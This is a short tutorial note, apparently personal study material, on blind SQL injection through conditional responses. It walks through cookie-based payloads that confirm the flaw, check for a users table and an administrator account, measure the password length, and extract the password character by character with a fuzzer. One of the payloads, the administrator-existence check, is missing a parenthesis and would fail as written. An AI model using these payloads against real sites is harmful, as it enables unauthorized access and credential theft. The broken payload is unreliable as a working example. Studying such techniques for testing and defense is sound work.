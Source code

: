 ```yaml
---
title: Conditional Responses
date: 2025-10-13
description: Notes of blind SQL injection with conditional responses.
weight: 1
---
```


## Principles

A type of blind SQL injection is triggering conditional responses.

For example, there is a request to an application including a cookie header like:

```text
Cookie: TrackingId=xxx
```

And the backend query may be:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'xxx'
```

Suppose that the frontend will display a message `Welcome back` if the query is valid. Otherwise, it won't display.

This is possible to be injected blindly.

If there is a table named `users` that stores information of users, and our goal is to gain `administrator` information, we can use the following payload to find out the injection vulnerability:

```text
Cookie: TrackingId=xxx' AND '1'='1
Cookie: TrackingId=xxx' AND '1'='2
```

If the frontend changed, then it is injectable.

Then we can use `SELECT` to determine whether the table `users` exists.

```text
Cookie: TrackingId=xxx' AND (SELECT 'a' FROM users LIMIT 1)='a
```

If the message `Welcome back` is displayed, it can be confirmed that `users` table exists.

To determine whether the user `administrator` exists, we can simply modify the payload above to:

```text
Cookie: TrackingId=xxx' AND SELECT 'a' FROM users WHERE username='administrator')='a
```

After that, we can find out the length of password by using the following payload:

```text
Cookie: TrackingId=xxx' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>$guess-length$)='a
```

The `$guess-length$` is a series of numbers to determine the length of password.

Then, we can retrieve the password by using the `SUBSTRING` function. The payload is:

```text
Cookie: TrackingId=xxx' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username = 'administrator') = 'a
```

By changing `a` to any other characters until the message `Welcome back` shown, we can finally get the first character of the password.

In [Zed Attack Proxy (ZAP)](https://www.zaproxy.org) or [Burp Suite](https://portswigger.net), modify the request to

```text
Cookie: TrackingId=xxx' AND (SELECT SUBSTRING(password,$index$,1) FROM users WHERE username = 'administrator') = '$guess-char$
```

Then use the fuzz tool, and we can retrieve the password.

## Reference

- [PortSwigger](https://portswigger.net/)
